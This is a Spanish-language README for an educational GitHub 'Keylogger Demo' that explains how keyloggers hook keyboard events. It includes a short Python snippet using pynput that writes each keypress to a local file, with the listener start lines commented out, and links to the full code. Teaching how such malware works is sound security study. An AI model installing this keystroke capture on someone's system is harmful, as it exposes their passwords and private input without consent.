

# Keylogger Demo

<span style="background-color: #2ea44f; color: white; padding: 4px 8px; border-radius: 4px; font-weight: bold;">Nivel Básico</span>

## 📝 Descripción
Demostración educativa de captura de teclas. Muestra cómo funcionan los keyloggers por dentro.

## 🛠️ Arquitectura y Flujo de Datos


## 🧠 Explicación Técnica y Conceptos Clave
Este proyecto con fines exclusivamente educativos ilustra cómo el software malicioso registra los eventos del teclado para robar credenciales. Utiliza la biblioteca `pynput` para engancharse a los eventos de entrada del sistema operativo y registrar las pulsaciones en un archivo local.

## 💻 Código de Ejemplo o Estructura Lógica
```python
from pynput.keyboard import Listener

def on_press(key):
    with open("keylog.txt", "a") as f:
        f.write(f"{key}\n")

# listener = Listener(on_press=on_press)
# listener.start()
```

## 🔗 Código Fuente y Acceso en GitHub
Puedes ver la implementación completa del código y probar este script directamente accediendo a su carpeta de proyecto:
[Ver código en GitHub](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/nivel_basico/06_basic_keylogger_demo)
